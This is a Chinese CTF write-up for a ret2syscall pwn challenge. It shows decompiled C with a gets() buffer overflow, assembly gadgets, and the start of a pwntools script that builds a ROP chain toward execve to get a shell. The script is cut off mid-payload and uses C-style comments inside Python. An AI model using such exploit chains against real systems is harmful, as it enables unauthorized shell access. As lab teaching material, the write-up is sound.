### [Week1] 高端的 syscall

> 系统调用是个好东西

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4[16]; // [rsp+0h] [rbp-10h] BYREF

  bufinit(argc, argv, envp);
  puts("I leave something interesting in this program.");
  puts("Now try to find them out!");
  puts("Input: ");
  gets(v4);
  return 0;
}
```

程序开启了 NX 保护并且没有后门函数，可以自己手动构造 syscall 来得到 shell。

注意到程序还提供了几个辅助函数用来构造 syscall：

**set_rax**

```assembly
.text:0000000000401196                 endbr64
.text:000000000040119A                 push    rbp
.text:000000000040119B                 mov     rbp, rsp
.text:000000000040119E                 mov     [rbp-4], edi
.text:00000000004011A1                 mov     eax, [rbp-4]
.text:00000000004011A4                 pop     rbp
.text:00000000004011A5                 retn
```

**gadget**

```assembly
.text:00000000004011AE                 syscall                 ; LINUX -
```

几个知识点：

- `syscall` 会根据 `rax` 中存储的系统调用号来执行对应的系统调用函数。
- `__lib_csu_init` 中有两个方便的 gadgets 可以供我们使用。
- 过程中需要的字段可以通过 gets 存储到 .bss 段中使用。

```python
from pwn import *

context(arch="amd64", os="linux")

# s = gdb.debug("./ret2syscall", "break main")
s = process("./ret2syscall")
elf = ELF("./ret2syscall")

setrax = 0x401196
syscall = 0x4011AA
csu1 = 0x4012DA
csu2 = 0x4012C0
rdi = 0x4012E3

bss = 0x404500
execve = 0x3B

payload = flat([
    b"a" * 0x18,          // 覆盖到 retn 地址
    rdi, bss,             // 将 rdi 设置为 bss 起始地址
    elf.plt.gets,         // 执行 gets，将自定义数据写入 rdi 指向的值
    rdi, execve,          // 将 rdi 设置为 execve 的系统调用号
```
